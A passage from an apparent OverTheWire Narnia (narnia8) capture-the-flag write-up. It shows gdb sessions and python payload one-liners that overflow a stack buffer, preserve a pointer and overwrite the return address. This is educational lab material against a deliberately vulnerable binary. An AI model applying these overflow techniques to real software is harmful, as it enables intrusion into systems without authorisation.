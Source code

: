 Recall that `[2]` is `char * b` which points to the exact same memory address as `blah` before it was butchered. So if we add this memory address to our buffer, we can essentially overwrite `blah` with its own memory address, meaning it doesn't get butchered, and the for-loop will continue copying the rest of buffer and we'll finally be able to overwrite the return address.

```
(gdb) run $(python -c 'print "A" * 20 + "\xdf\xd8\xff\xff"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /narnia/narnia8 $(python -c 'print "A" * 20 + "\xdf\xd8\xff\xff"')

Breakpoint 1, 0x080484a7 in func ()
(gdb) x/20xw $esp
0xffffd6b0:	0x08048580	0xffffd6c8	0x00000014	0xf7e55fe3
0xffffd6c0:	0x00000000	0x002c307d	0x41414141	0x41414141
0xffffd6d0:	0x41414141	0x41414141	0x41414141	0xffffd8df
0xffffd6e0:	0x00000002	0xffffd7a4	0xffffd708	0x080484cd
0xffffd6f0:	0xffffd8df	0xf7ffd000	0x080484fb	0xf7fcc000
```

Our entire buffer buffer now gets loaded. Increasing the size of our buffer will modify the memory addresses, so we will have to find the correct address again after we increase our buffer:

With the previous address our buffer gets dropped again:
```
(gdb) run $(python -c 'print "A" * 20 + "\xdf\xd8\xff\xff" + "A"*12 +"ZZZZ"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /narnia/narnia8 $(python -c 'print "A" * 20 + "\xdf\xd8\xff\xff" + "A"*12 +"ZZZZ"')

Breakpoint 1, 0x080484a7 in func ()
(gdb) x/20xw $esp
0xffffd6a0:	0x08048580	0xffffd6b8	0x00000014	0xf7e55fe3
0xffffd6b0:	0x00000000	0x002c307d	0x41414141	0x41414141
0xffffd6c0:	0x41414141	0x41414141	0x41414141	0xffff5adf
0xffffd6d0:	0x00000002	0xffffd794	0xffffd6f8	0x080484cd
0xffffd6e0:	0xffffd8cf[1]	0xf7ffd000	0x080484fb	0xf7fcc000

```
With the correct address pointed at `[1]`, our entire buffers gets copied and the return address gets overwritten:
```
(gdb) run $(python -c 'print "A" * 20 + "\xcf\xd8\xff\xff" + "A"*12 +"ZZZZ"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /narnia/narnia8 $(python -c 'print "A" * 20 + "\xcf\xd8\xff\xff" + "A"*12 +"ZZZZ"')

Breakpoint 1, 0x080484a7 in func ()
(gdb) x/40xw $esp
0xffffd6a0:	0x08048580	0xffffd6b8	0x00000014	0xf7e55fe3
0xffffd6b0:	0x00000000	0x002c307d	0x41414141	0x41414141
0xffffd6c0:	0x41414141	0x41414141	0x41414141	0xffffd8cf
0xffffd6d0:	0x41414141	0x41414141	0x41414141	0x5a5a5a5a[1]
0xffffd6e0:	0xffffd8cf	0xf7ffd000	0x080484fb	0xf7fcc000
---snip---
(gdb) cont
Continuing.
AAAAAAAAAAAAAAAAAAAA����AAAAAAAAAAAAZZZZ����

Program received signal SIGSEGV, Segmentation fault.
0x5a5a5a5a in ?? ()
```

[overthewire]: https://www.overthewire.org